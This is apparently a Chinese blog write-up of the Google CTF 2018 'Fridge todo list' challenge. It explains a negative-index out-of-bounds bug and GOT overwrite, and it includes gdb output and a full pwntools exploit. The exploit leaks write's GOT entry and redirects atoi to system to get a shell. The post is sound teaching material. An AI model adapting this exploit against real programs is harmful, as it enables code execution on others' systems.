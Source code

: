 ```yaml
---
id: 790
layout: post
title: '二进制安全之栈溢出（十一）'
date: 2018-11-09 12:46:07
author: virusdefender
tags: 安全 CTF
---
```


本文是 plt 和 got 表相关的漏洞利用实例，是 [Google CTF](https://github.com/BOAKGP/CTF-Writeups/tree/master/Google%20CTF%202018%20Quals%20Beginners%20Quest/Fridge%20todo%20list) 中的一道题，题目给了源码和 binary。

通过阅读代码，可以发现

```clike
int idx = read_int();
if (idx > TODO_COUNT) {
    puts(OUT_OF_BOUNDS_MESSAGE);
    return;
}
printf("What's your TODO? ");
fflush(stdout);
read_line(&todos[idx*TODO_LENGTH], TODO_LENGTH);
```

这里虽然检查了 `idx` 最大不能超过某个范围，但是没有检查小于零的情况，所以如果构造小于零的 `idx`，就可以读取比 `todos` 数组地址还小的位置的内存了，同理，在 `write_all` 函数中，也可以任意的去写这个位置的内存。

`todos` 是一个全局变量，所以它的内存地址是确定的，是在 bss 段。因为 `todos` 的索引会乘以 `TODO_LENGTH`，所以内存的读取是跳跃的，每次都相差 48 个字节。

使用 gdb 调试，`set follow-fork-mode parent` 然后 `b main` `p &todos` 可以看到内存地址。

```
gdb-peda$ p &todos
$1 = (<data variable, no debug info> *) 0x555555757140 <todos>
```

在 IDA 中，也可以看到 `todos` 和 `got` 表距离也非常近，写一个小程序算一下

![](https://storage.virusdefender.net/blog/images/790/1.png)

```python
base = 0x203140
for i in range(10):
    print hex(base - i * 48)
```

结合 IDA 的结果和计算输出的结果，可以标记出来一些有用的数据

```
0x203140 -> todos
0x203110
0x2030e0
0x2030b0
         0x203088（非整数倍） -> atoi
0x203080 -> open
0x203050 -> strncat
0x203020 -> write
0x202ff0
0x202fc0
0x202f90
```

比如先读一下 `write` 的地址

```
[-------------------------------------code-------------------------------------]
   0x555555554900 <puts@plt>:	jmp    QWORD PTR [rip+0x202712]        # 0x555555757018
   0x555555554906 <puts@plt+6>:	push   0x0
   0x55555555490b <puts@plt+11>:	jmp    0x5555555548f0
=> 0x555555554910 <write@plt>:	jmp    QWORD PTR [rip+0x20270a]        # 0x555555757020
 | 0x555555554916 <write@plt+6>:	push   0x1
 | 0x55555555491b <write@plt+11>:	jmp    0x5555555548f0
 | 0x555555554920 <strlen@plt>:	jmp    QWORD PTR [rip+0x202702]        # 0x555555757028
 | 0x555555554926 <strlen@plt+6>:	push   0x2
 |->   0x555555554916 <write@plt+6>:	push   0x1
       0x55555555491b <write@plt+11>:	jmp    0x5555555548f0
       0x555555554920 <strlen@plt>:	jmp    QWORD PTR [rip+0x202702]        # 0x555555757028
       0x555555554926 <strlen@plt+6>:	push   0x2
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
```

重新画一下数据分布图

```
0x555555757140 -> todos
0x555555757110
0x5555557570e0
0x5555557570b0
0x555555757080
0x555555757050
0x555555757020 => 0x555555554916 -> write@plt+6
```

由以前的知识就知道 `0x555555757020` 就是 `write` 的 got 表的地址，减去刚才已知的 `todos` 的位置，正好是 `(0x555555757020 - 0x555555757140) / 48 == -6`。

可以先构造一个读取 `write` 的 got 表地址 exp

```python
from pwn import *
from struct import unpack

proc = process("./todo")
proc.send("admin\n")
proc.readuntil(">")
proc.send("2\n")
proc.readuntil("read?")
proc.send("-6\n")
res = proc.readuntil("Hi admin,").splitlines()[0]
write_addr = res.split(':', 1)[1][1:].ljust(8, chr(0))
write_addr = unpack("<Q", write_addr)[0]

print hex(write_addr)
```

其中 `<Q` 是指定按照小端序读取 8 个字节作为一个数字。因为这时候 write 函数还没有被解析，所以 got 表中的 `write` 还是指向 `write@plt+6` 的。

剩下的步骤就简单多了，在 `store_todo` 函数中，可以将我们的输入写入 got 表的位置，所以应该是将 `system@plt` 的地址写入接下来要运行的参数可控的函数的 got 表的位置。发现 `atoi` 函数是一个选择，函数的偏移是确定的，`system@plt` - `write@plt+6` 也就是 `0x555555554940 - 0x555555554916 = 0x2a`（`atoi@plt` 的地址可以使用 `info addr atoi@plt` 获取，是在偏移 -4 再加 8 个字节）。

完整 exp 如下

```python
from pwn import *
from struct import unpack, pack

proc = process("./todo")
proc.send("admin\n")
proc.readuntil(">")
proc.send("2\n")
proc.readuntil("read?")
proc.send("-6\n")
res = proc.readuntil("Hi admin,").splitlines()[0]
write_addr = res.split(':', 1)[1][1:].ljust(8, chr(0))
write_addr = unpack("<Q", write_addr)[0]

print hex(write_addr)

proc.send("3\n")
proc.readuntil("entry?")
proc.send("-4\n")
proc.readuntil("TODO?")
proc.send("AAAAAAAA" + pack("<Q", write_addr + 0x2a)[:8] + "\n")

proc.interactive()
```

参考

  - https://hackso.me/google-ctf-beginners-quest-part-2/